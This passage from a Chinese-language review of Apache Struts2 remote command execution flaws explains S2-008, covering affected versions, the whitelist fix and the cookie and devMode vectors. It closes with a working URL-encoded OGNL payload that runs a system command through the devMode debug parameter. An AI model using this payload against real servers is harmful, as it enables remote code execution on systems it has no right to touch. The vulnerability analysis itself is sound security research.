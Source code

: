![](/images/articles/2016-05-06-review-struts2-remote-command-execution-vulnerabilities/4.png)

### S2-008

> 官方链接：[https://struts.apache.org/docs/s2-008.html](https://struts.apache.org/docs/s2-008.html)
> 
> 影响版本：Struts 2.1.0 - Struts 2.3.1
> 
> 修复摘要：添加参数名和 Cookie 名白名单 acceptedParamNames = "[a-zA-Z0-9\.][()_']+";

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 `devMode` 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

例如在 `devMode` 模式下直接添加参数 `?debug=command&expression=<OGNL EXP>` 会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）：

    http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
